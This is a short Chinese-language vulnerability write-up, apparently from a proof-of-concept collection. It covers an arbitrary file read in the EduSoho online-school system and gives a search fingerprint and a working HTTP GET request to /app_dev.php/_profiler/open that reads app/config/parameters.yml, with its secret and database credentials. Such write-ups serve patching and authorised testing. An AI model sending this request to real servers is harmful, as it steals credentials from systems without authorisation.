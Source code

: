 # EduSoho 教培系统 app_dev.php 任意读取漏洞

## 漏洞描述

EduSoho 教培系统是由杭州阔知网络科技研发的开源网校系统。通过向 /app_dev.php/_profiler/open 端点发送可以读取到 app/config/parameters.yml 文件的内容，拿到该文件中保存的 secret 值以及数据库账号密码等敏感信息

## 漏洞影响

<a-checkbox checked>EduSoho 教培系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Powered By EduSoho"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697684628422-72f32fbc-e9c5-48c5-8f19-e5e50f7fff83.png)

验证POC

```php
GET /app_dev.php/_profiler/open?file=app/config/parameters.yml HTTP/1.1
Host:  
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697684710859-d5223cfd-a9fa-4198-a019-54f523242b8f.png)